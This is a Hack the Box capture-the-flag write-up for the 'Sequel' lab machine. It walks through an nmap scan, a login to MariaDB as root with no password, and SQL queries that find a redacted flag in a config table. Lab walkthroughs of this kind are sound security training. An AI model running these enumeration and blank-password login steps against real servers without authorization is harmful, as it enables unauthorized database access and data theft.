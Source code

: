 +++
title = "Sequel on Hack the Box Write-up"
author = ["funcsec"]
date = 2022-01-19
publishDate = 2022-01-19
lastmod = 2022-01-23T20:09:44-08:00
tags = ["mysql"]
categories = ["writeup", "redteam"]
draft = false
toc = "true +"
omit_header_text = "+"
background_color_class = "bg-black-60"
description = "Write-up for the Hack the Box Sequel server"
featured_image = "images/william-michael-harnett_memento-mori.jpg"
images = ["images/william-michael-harnett_memento-mori.jpg"]
+++

Quick little `mysql` vulnerability.
A lession in misconfiguration.

---


## Executive Summary {#executive-summary}

The target machine had an open database port which also had no password to access the service.
This was a [Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/).


## Methodology {#methodology}

To begin,  the target machine was enumerated using `nmap`.
The output of `nmap` will show the open ports and potentially try to identify services of a target machine.

```bash
nmap -sV -sC $ip
```

The variable `$ip` was substituted for the ip address of the target machine.

```text
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-18 23:10 EST
Nmap scan report for 10.129.95.232
Host is up (0.075s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 336
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, DontAllowDatabaseTableColumn, SupportsTransactions, InteractiveClient, ConnectWithDatabase, Speaks41ProtocolOld, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsCompression, LongColumnFlag, SupportsLoadDataLocal, ODBCClient, Speaks41ProtocolNew, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: */KkY^K>5,|OT8\E'2d"
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 209.29 seconds
```

The output of `nmap` indicated that there was an open `mysql` port, specifically running MariaDB version 10.3.27.
A common miss configuration for `mysql` is too fail to configure the root password for the `mysql root` user.
This is different from the system root user and can have a different password or no password at all.
Best practice is not to expose database ports to the open internet, only machines that require access to the database.

The target machine may not have a root `mysql` password configured.

```bash
IP=$ip
PORT=3306
mysql -h "$IP" -P "$PORT" -u root -p
```

```text
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 344
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Logging in with the root user with no password was successful.
This offer and full control over the target machine's `mysql` service.
The server distribution of Debian 10 (buster) was present in the output from the `mysql` service.
The `mysql` databases were then searched for interesting data.

```text
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.075 sec)
```

The only unique database was `htb`, the rest of them are standard to `mysql`.
It was likely that the flag data was contained in that database.

```text
MariaDB [(none)]> use htb;

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.100 sec)
```

A `config` table is often where other important information pertaining to an application.
A `users` table might be helpful in collecting user credentials or social engineering materials.
A flag might be in either, but `config` was accessed first.

```text
MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | [[ REDACTED ]]                   |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.073 sec)
```

The flag was in the `config` table and the flag value was `flag{[[ REDACTED ]]}`.

---

One simple vulnerability, and a quick turnaround.
Good to put in a couple `SQL` queries every now and again.